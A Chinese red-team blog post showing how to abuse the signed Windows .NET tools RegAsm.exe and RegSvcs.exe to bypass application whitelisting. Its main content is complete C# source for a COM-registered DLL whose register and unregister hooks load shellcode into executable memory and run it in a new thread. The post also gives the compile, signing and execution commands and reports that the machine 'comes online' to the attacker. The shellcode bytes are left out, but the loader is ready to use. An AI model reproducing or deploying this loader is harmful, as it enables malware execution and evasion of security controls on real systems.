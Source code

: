 ```yaml
---
layout:     post
title:    白名单-RegAsm/RegSvcs的利用
subtitle:   RegAsm/RegSvcs的利用
date:       2020-02-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-RegAsm/RegSvcs的利用

## 简介

RegAsm读取程序集中的元数据，并将所需项添加到注册表中。注册表允许 COM 客户端以透明方式创建 .NET Framework 类。 在注册一个类之后，任何 COM 客户端都可以像使用 COM 类一样使用它。 类仅在安装程序集时注册一次。 只有实际注册程序集中的类实例之后才能从 COM 中创建它们。  
.NET 服务安装工具RegSvcs执行下列操作：
- 加载并注册程序集。
- 生成、注册类型库并将其安装到指定的 COM+ 应用程序中。
- 配置以编程方式添加到类的服务。

因为同样是没有添加到PATH中，需要给上绝对路径。  
win7为例：***C:\Windows\Microsoft.NET\Framework\v4.0.30319***
具体的一些介绍信息可以查看官方手册。  
[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regasm-exe-assembly-registration-tool](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regasm-exe-assembly-registration-tool)   
[https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool](https://docs.microsoft.com/zh-cn/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool)   

### RegAsm测试
跟前面的InstallUtil有点像，只是文件代码需要改下，且要编译成dll文件。  
```
using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.EnterpriseService;
using System.Runtime.InteropServices;


namespace sdwjSJdn
{

    public class sSDMWo:ServicedComponent
    {
        public  void SDnqsdS()
        {
            Console.WriteLine("test");
        }
        [ComRegisterFunction]
        public static void RegisterClass(string SDJLNWdws)
        {
        shellcodeload.MsdwsdSAsdw();
        }
        [ComUnregisterFunction]
        public static void UnRegisterClass(string SDJLNWdws)
        {
        shellcodeload.MsdwsdSAsdw();
        }
    public class shellcodeload
    {
        public static void MsdwsdSAsdw()
        {
            byte[] shellcode = new byte[] { .......... }; //添加要加载的shellcode
            
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId
        );

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(
            IntPtr hHandle,
            UInt32 dwMilliseconds
        );
    }
}
```
然后直接编译：  
```
csc.exe /target:library /out:test.dll 1.cs
```
建议将得到的dll放到.net目录下，然后执行。  
```
RegAsm.exe /U test.dll
```
可以看到上线了。  
![200203_1](/img/200203_regasm.png)  


### RegSvcs测试
代码还是用上面的代码，但是两个问题，一个是要给dll签名，一个是要修改一个配置。  
创建强名称密钥文件：  
打开开发人员命令提示。  
像下面一样创建密钥文件。  
![200203_2](/img/200203_snk.png)  
然后在项目属性中添加这个文件。  
![200203_3](/img/200203_addsnk.png)  
这样编译还是不能运行，会报类错误的。  
修改项目中的AssemblyInfo.cs文件，将[assembly: ComVisible(false)]改为true。  
![200203_4](/img/200203_asminfo.png)  
然后编译成dll文件。  
放到.net目录下执行。  
```
RegSvcs.exe test.dll
```
![200203_5](/img/200203_regsvcs.png)  



### 参考
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/73_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Regasm.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%B8%89%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/73_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Regasm.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E4%B8%89%E5%AD%A3.html)  
[https://micro8.github.io/Micro8-HTML/Chapter1/71-80/74_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95regsvcs.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%9B%9B%E5%AD%A3.html](https://micro8.github.io/Micro8-HTML/Chapter1/71-80/74_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95regsvcs.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%9B%9B%E5%AD%A3.html)  




